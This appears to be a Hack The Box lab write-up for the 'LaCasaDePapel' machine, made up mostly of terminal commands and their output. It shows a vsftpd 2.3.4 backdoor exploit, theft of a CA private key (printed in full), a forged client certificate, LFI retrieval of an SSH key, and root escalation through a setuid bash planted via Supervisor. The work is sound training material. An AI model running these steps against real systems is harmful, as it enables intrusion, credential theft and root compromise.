 # Target
| Category          | Details                                                            |
|-------------------|--------------------------------------------------------------------|
| 📝 **Name**       | [LaCasaDePapel](https://app.hackthebox.com/machines/LaCasaDePapel) |  
| 🏷 **Type**       | HTB Machine                                                        |
| 🖥️ **OS**        | Linux                                                              |
| 🎯 **Difficulty** | Easy                                                               |

# Attack path
1. [Exfiltrate private key of certificate authority through backdoor in `vsftpd 2.3.4`](#exfiltrate-private-key-of-certificate-authority-through-backdoor-in-vsftpd-234-cve-2011-2523)
2. [Obtain certificate details (Common Name and Organization)](#obtain-certificate-details-common-name-and-organization)
3. [Create a self-signed CA certificate](#create-a-self-signed-ca-certificate)
4. [Generate private key and sign it with exfiltrated certificate](#generate-private-key-and-sign-it-with-exfiltrated-certificate)
5. [Access web application running at 443 with signed private key](#access-web-application-running-at-443-with-signed-private-key)
6. [Exfiltrate private SSH key through LFI](#exfiltrate-private-ssh-key-through-lfi)
7. [Gain access over SSH with exfiltrated key](#gain-access-over-ssh-with-exfiltrated-key)
8. [Escalate to root through Supervisor misconfiguration](#escalate-to-root-through-supervisor-misconfiguration)

#### Exfiltrate private key of certificate authority through backdoor in `vsftpd 2.3.4` ([CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523))
```
┌──(magicrc㉿perun)-[~/attack/HTB LaCasaDePapel]
└─$ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit && \
python3 -m venv htb && \
source htb/bin/activate && \
pip3 install pwn && \
python3 ./vsftpd_2.3.4_Exploit/exploit.py $TARGET
...
<SNIP>
...
[+] Got Shell!!!
[+] Opening connection to 10.129.183.78 on port 21: Done
[*] Closed connection to 10.129.183.78 port 21
[+] Opening connection to 10.129.183.78 on port 6200: Done
[*] Switching to interactive mode
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
$ file_get_contents('/home/nairobi/ca.key')
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
   ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
   9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
   WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
   7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
   aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
   """
```

#### Obtain certificate details (Common Name and Organization)
```
┌──(magicrc㉿perun)-[~/attack/HTB LaCasaDePapel]
└─$ curl -svI https://$TARGET -k 2>&1 | grep subject
*   subject: CN=lacasadepapel.htb,O=La Casa De Papel
```

#### Create a self-signed CA certificate
```
┌──(magicrc㉿perun)-[~/attack/HTB LaCasaDePapel]
└─$ sed -e 's/^[ \t]*//' -e 's/\\n//g' <<EOF> ca.key && \
openssl req -new -x509 -key ca.key -out ca.crt -subj "/CN=lacasadepapel.htb/O=La Casa De Papel"
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
   ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
   9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
   WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
   7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
   aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
EOF
```

#### Generate private key and sign it with exfiltrated certificate
```
┌──(magicrc㉿perun)-[~/attack/HTB LaCasaDePapel]
└─$ openssl genrsa -out client.key 2048 && \
openssl req -new -key client.key -out client.csr -subj "/CN=client.lacasadepapel.htb/O=La Casa De Papel" && \
openssl x509 -req -in client.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out client.crt -days 365 -sha256
```

#### Access web application running at 443 with signed private key
```
┌──(magicrc㉿perun)-[~/attack/HTB LaCasaDePapel]
└─$ curl -s --cert client.crt --key client.key https://$TARGET?path=../.ssh -k | grep id_rsa
},3000);</script></head><body><div><h1>PRIVATE AREA</h1><img id="img_wait" src="waiting.gif"><h2 id="h2_wait">CONECTION TO SERVER<br>PLEASE WAIT</h2><ul id="ui_list" style="display:none"><li><strong>authorized_keys</strong></li><li><strong>id_rsa</strong></li><li><strong>id_rsa.pub</strong></li><li><strong>known_hosts</strong></li></ul></div></body></html>
```

#### Exfiltrate private SSH key through LFI
```
┌──(magicrc㉿perun)-[~/attack/HTB LaCasaDePapel]
└─$ SSH_KEY_PATH=$(echo -n "../.ssh/id_rsa" | base64)
curl -sk --cert client.crt --key client.key https://$TARGET/file/$SSH_KEY_PATH -o id_rsa && \
chmod 600 id_rsa
```

#### Gain access over SSH with exfiltrated key
```
┌──(magicrc㉿perun)-[~/attack/HTB LaCasaDePapel]
└─$ ssh professor@$TARGET -i id_rsa

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ id
uid=1002(professor) gid=1002(professor) groups=1002(professor)
```

#### Escalate to root through Supervisor misconfiguration
```
lacasadepapel [~]$ (cat <<EOF> /home/professor/memcached.ini 
[program:memcached]
command = /bin/bash -c "/bin/cp /bin/bash /tmp/root_shell; /bin/chmod +s /tmp/root_shell"
EOF
) && while [ ! -f /tmp/root_shell ]; do sleep 1; done && /tmp/root_shell -p
lacasadepapel [~]$ id
uid=1002(professor) gid=1002(professor) euid=0(root) egid=0(root) groups=0(root),1002(professor)
```
